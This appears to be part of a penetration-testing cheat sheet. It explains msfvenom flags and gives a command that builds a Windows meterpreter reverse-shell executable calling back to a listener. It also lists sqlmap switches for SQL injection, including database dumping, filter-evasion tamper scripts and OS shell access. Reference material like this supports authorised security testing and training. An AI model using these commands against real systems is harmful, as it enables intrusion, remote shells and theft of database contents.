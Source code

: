### msfvenom — Payload Creation

**Basic:**
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.0.0.100 LPORT=4444 -f exe > shell.exe
```

**Key flags:**
- `-p` — payload
- `LHOST, LPORT` — listener host/port
- `-f` — output format (exe, elf, raw, c, aspx, war, python, etc.)
- `-a` — architecture (x86, x64)
- `-b` — badchars to avoid (e.g. `-b "\x00\x0a"`)
- `-e` — encoder (e.g. x86/shikata_ga_nai)

Redirect with `>` to write to file

---

## 💉 sqlmap - SQL Injection

**Purpose:** Automatic SQL injection discovery & exploitation.

### Basic Usage
```bash
sqlmap -u "http://example.com/page.php?id=1" --batch
```

### Important Switches
- `-u` — URL (GET)
- `--data="id=1&name=foo"` — POST data
- `--cookie="PHPSESSID=..."` — include cookies
- `--headers="User-Agent: ..."` — add headers
- `--technique=BEUSTQ` — force techniques (B=Boolean, E=Error, U=UNION, S=Stacked, T=Time, Q=Inline)
- `--dbs` — enumerate databases
- `--tables -D <db>` — list tables in DB
- `--columns -T <table> -D <db>` — list columns
- `--dump` — dump table data
- `--batch` — non-interactive (useful for scripts)
- `--risk=1-3` and `--level=1-5` — controls test intensity (higher = more requests)
- `--threads=N` — parallel requests
- `--tamper=<script>` — try evasion (space2comment, randomcase, etc.)
- `--os-shell` / `--os-pwn` — attempt OS command shell (very intrusive)

### Examples

**Enumerate DBs:**
```bash
sqlmap -u "http://example.com/item?id=1" --dbs --batch
```

**Dump a table:**
```bash
sqlmap -u "http://example.com/item?id=1" -D shopdb -T users --dump
```

---